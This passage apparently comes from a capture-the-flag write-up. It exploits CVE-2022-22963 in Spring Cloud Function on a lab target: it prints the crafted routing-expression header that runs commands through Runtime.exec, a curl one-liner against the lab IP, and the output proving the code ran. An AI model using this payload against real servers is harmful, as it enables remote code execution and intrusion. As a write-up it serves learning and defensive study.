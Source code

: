 ```go
target
```

Reading the file `pom.xml` tells the user some information about the server application, which should provide a hint as to what the next exploit is.
```go
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.6.5</version>
    <relativePath/> <!-- lookup parent from repository -->
</parent>
```

Performing some research on the spring framework for version 2.6.5, this reveals an RCE exploit which can be found in the following article [here](https://www.fastly.com/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022).

The article shows that the author managed to find a Remote Code Execution exploit by inserting some Java code into the request header to create a file.
```go
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
Content-Length: 1
```

After creating the above file using the malicious code in the request, the user can verify if this works by using the LFI exploit discovered eariler.

Taking the request header above, the following can be created to exploit the target.
`curl -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('touch /tmp/heythere')" --data-raw -v`

These are the results using the LFI exploit discovered earlier.
```go
.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
heythere
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-ModemManager.service-la5Uki
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-systemd-logind.service-8I00yh
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-systemd-resolved.service-jCbaTf
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-systemd-timesyncd.service-sGK0dh
tmux-1000
tmux-1001
tomcat.8080.3908596987219633944
tomcat.8080.9631068121834054598
tomcat-docbase.8080.5138557187431181977
UjGlX.b64
vmware-root_740-2999460834
```
